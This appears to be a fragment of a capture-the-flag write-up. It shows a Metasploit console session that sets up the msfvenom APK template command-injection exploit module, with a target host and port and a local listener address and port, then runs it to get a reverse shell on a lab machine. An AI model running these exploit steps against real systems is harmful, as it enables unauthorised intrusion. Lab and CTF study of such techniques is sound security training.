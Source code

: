 # msfconsole 

rhost == target
lhost == ip kita

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set rhost 10.10.10.226
rhost => 10.10.10.226
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set rport 5000
rport => 5000
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.16.23
lhost => 10.10.16.23
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 1337
lport => 1337
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
